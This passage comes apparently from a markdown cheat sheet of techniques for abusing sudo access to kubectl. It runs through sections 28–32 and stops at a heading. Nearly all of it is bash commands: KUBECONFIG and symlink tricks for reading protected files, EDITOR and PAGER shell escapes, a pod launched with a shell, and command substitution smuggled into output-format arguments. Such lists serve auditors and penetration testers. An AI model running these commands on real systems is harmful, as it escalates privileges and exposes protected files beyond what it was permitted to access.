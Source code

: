 ```bash
echo "corrupted" > /tmp/bad
export KUBECONFIG=/tmp/bad:/target/file
sudo -E kubectl version

ln -s /target/file /tmp/a
ln -s /tmp/a /tmp/b
sudo kubectl apply -f /tmp/b

sudo kubectl apply -f /dev/stdin < /target/file
```

---

## 28. Client-Side Parsers & Converters

```bash
sudo kubectl kustomize /target/dir
sudo kubectl apply -f /target/file --openapi-schema-validation
```

---

## 29. Shell Escapes via Kubectl Subcommands

```bash
EDITOR="sh -c id" sudo kubectl edit cm test
PAGER="less -! -f /target/file" sudo kubectl get pods
sudo kubectl run evil --image=busybox -it -- sh
```

---

## 30. Compression & Encoding Tricks

```bash
sudo kubectl create cm test --from-file=/target/file -o yaml | grep base64
tar -cf /tmp/bundle.tar /target/file
sudo kubectl apply -f /tmp/bundle.tar
```

---

## 31. Uncommon Output Formats

```bash
sudo kubectl get pods -o wide
sudo kubectl get pods -o jsonpath='{.items[?(@.metadata.name=="$(cat /target/file)")]}'
sudo kubectl get -o=custom-columns=NAME:.metadata.name,FILE:$(cat /target/file)
```

---

## 32. API Server Proxy Shenanigans
